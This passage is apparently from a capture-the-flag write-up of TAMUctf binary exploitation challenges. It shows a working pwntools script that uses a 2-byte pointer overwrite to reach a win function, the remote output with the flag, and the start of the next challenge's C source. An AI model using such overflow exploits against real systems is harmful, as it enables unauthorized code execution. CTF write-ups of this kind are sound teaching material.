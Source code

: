 After attempting to find other exploit methods I ended up just trying to add and subtract different 8-aligned values to my 2-byte overwrite. Eventually it gave me the flag at +40.

The exploit script working remote ended up being
```python
io = start()
io.recvuntil(b"stored at ")
pointers = io.recvline().rstrip()
log.info(f"Pointers @ {hex(int(pointers,16))}")

lsb = pointers[-4:]
win = bytes((int(lsb, 16)+40).to_bytes(2, byteorder='little'))
payload = b"\x90"*8
payload += win

io.recvuntil(b"pls:")
io.sendline(payload)
io.interactive()
```
{: .nolineno }

```bash
$ python3 exploit.py
[+] Opening connection to tamuctf.com on port 443: Done
[*] Pointers @ 0x7ffd84941c60
[*] Switching to interactive mode
 gigem{small_overflows_are_still_effective}
```
{: .nolineno }

+40 worked both locally and remotely, which means that +32 would call the `lose` function, right?
```bash
 python3 exploit.py
[+] Opening connection to tamuctf.com on port 443: Done
[*] Pointers @ 0x7fff2ce80870
[*] Switching to interactive mode
 loser
```
{: .nolineno }

Yup it does, which it did locally for offset -8 also, but not on the server... I'm not sure what OS they ran, but if its Ubuntu 20.04 (which I used locally) this would make even less sense to me... But that's how pwn-challenges are sometimes ¯\\_(ツ)_/¯


## Randomness
> Points: 428 <br>
> Author: anomie <br>
> I made this program to test how srand and rand work, but it keeps segfaulting. I don't read compiler warnings so I can't figure out why it's broken.

We are given the source code for this challenge as well
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void upkeep() {
    // Not related to the challenge, just some stuff so the remote works correctly
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void win() {
    char* argv[] = {"/bin/cat", "flag.txt", NULL};
    execve(argv[0], argv, NULL);
```